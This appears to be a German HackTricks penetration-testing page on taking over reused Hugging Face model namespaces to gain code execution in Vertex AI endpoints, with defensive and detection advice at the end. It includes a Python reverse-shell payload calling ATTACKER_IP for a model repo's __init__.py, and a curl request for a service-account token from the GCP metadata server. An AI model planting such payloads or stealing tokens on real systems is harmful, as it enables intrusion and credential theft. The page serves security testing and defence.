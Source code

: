 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Szenario

- Der Vertex AI Model Garden ermöglicht die direkte Bereitstellung vieler Hugging Face (HF)-Modelle.
- HF model identifiers sind Author/ModelName. Wenn ein Author/Org auf HF gelöscht wird, kann derselbe Autorenname von jedem neu registriert werden. Angreifer können dann ein Repo mit demselben ModelName am Legacy-Pfad erstellen.
- Pipelines, SDKs oder Cloud-Kataloge, die nur nach Name holen (kein Pinning/keine Integritätsprüfung), werden das von Angreifern kontrollierte Repo ziehen. Wenn das Modell bereitgestellt wird, kann Loader-Code aus diesem Repo innerhalb des Vertex AI Endpoint-Containers ausgeführt werden und RCE mit den Berechtigungen des Endpoints ermöglichen.

Zwei häufige Übernahmefälle auf HF:
- Ownership deletion: Alter Pfad liefert 404, bis jemand den Autor erneut registriert und denselben ModelName veröffentlicht.
- Ownership transfer: HF gibt 307 Redirects vom alten Author/ModelName zum neuen Author aus. Wenn der alte Author später gelöscht und von einem Angreifer neu registriert wird, ist die Redirect-Kette gebrochen und das Repo des Angreifers wird am Legacy-Pfad ausgeliefert.

## Identifizieren wiederverwendbarer Namespaces (HF)

- Alter Author gelöscht: die Seite des Authors liefert 404; der Modellpfad kann 404 zurückgeben, bis eine Übernahme erfolgt.
- Transferierte Modelle: der alte Modellpfad gibt 307 auf den neuen Owner zurück, solange der alte Author existiert. Wenn der alte Author später gelöscht und neu registriert wird, wird der Legacy-Pfad auf das Repo des Angreifers aufgelöst.

Schnelle Prüfungen mit curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## End-to-End-Angriffsablauf gegen Vertex AI

1) Entdecke wiederverwendbare Modell-Namespaces, die Model Garden als deploybar auflistet:
- Finde HF-Modelle in Vertex AI Model Garden, die noch als “verified deployable” angezeigt werden.
- Prüfe auf HF, ob der ursprüngliche Author gelöscht wurde oder ob das Modell übertragen wurde und der alte Author später entfernt wurde.

2) Registriere den gelöschten Author auf HF neu und erstelle denselben ModelName wieder.

3) Veröffentliche ein bösartiges repo. Füge Code hinzu, der beim Model-Load ausgeführt wird. Beispiele, die beim HF-Model-Load häufig ausgeführt werden:
- Seiteneffekte in __init__.py des Repos
- Benutzerdefinierte modeling_*.py- oder Verarbeitungscode, der von config/auto_map referenziert wird
- Codepfade, die trust_remote_code=True in Transformers pipelines erfordern

4) Eine Vertex AI-Bereitstellung des Legacy Author/ModelName zieht nun das Angreifer-repo. Der Loader wird innerhalb des Vertex AI endpoint container ausgeführt.

5) Die Payload stellt Zugriff aus der Endpoint-Umgebung (RCE) mit den Berechtigungen des Endpoints her.

Beispiel eines Payload-Fragments, das beim Import ausgeführt wird (nur zur Demonstration):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notizen
- Real-world loaders variieren. Viele Vertex AI HF Integrationen klonen und importieren Repo-Module, die in der model’s config referenziert werden (z. B. auto_map), was code execution auslösen kann. Einige Einsatzzwecke erfordern trust_remote_code=True.
- Der Endpoint läuft typischerweise in einem dedizierten Container mit begrenztem Scope, stellt jedoch einen gültigen initial foothold für data access und lateral movement in GCP dar.

## Post-Exploitation Tips (Vertex AI Endpoint)

Sobald code im Endpoint-Container läuft, erwägen:
- Environment-Variablen und Metadaten nach credentials/tokens enumerieren
- Zugriff auf angehängten Storage oder gemountete Modell-Artefakte
- Mit Google APIs über die Service-Account-Identität interagieren (Document AI, Storage, Pub/Sub, etc.)
- Persistenz im Modell-Artefakt, falls die Plattform das Repo erneut zieht

Instanz-Metadaten auflisten, falls zugänglich (abhängig vom Container):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Defensive Hinweise für Vertex AI-Nutzer

- Modelle per Commit in HF loaders pinnen, um stilles Ersetzen zu verhindern:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Spiegle geprüfte HF models in ein vertrauenswürdiges internes Artifact-Store/Registry und stelle sie von dort bereit.
- Scanne kontinuierlich Codebasen und Konfigurationen nach hartkodierten Author/ModelName, die gelöscht/übertragen wurden; aktualisiere auf neue Namespaces oder lege sie per Commit fest.
- In Model Garden, prüfe die Modellherkunft und die Existenz des Authors vor der Bereitstellung.

## Erkennungsheuristiken (HTTP)

- Deleted author: author page 404; legacy model path 404 bis zur Übernahme.
- Transferred model: legacy path 307 zum neuen author, während der alte author noch existiert; wenn der alte author später gelöscht und neu registriert wird, liefert der legacy path attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Querverweise

- Siehe umfassendere Methodik- und Supply-Chain-Hinweise:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referenzen

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
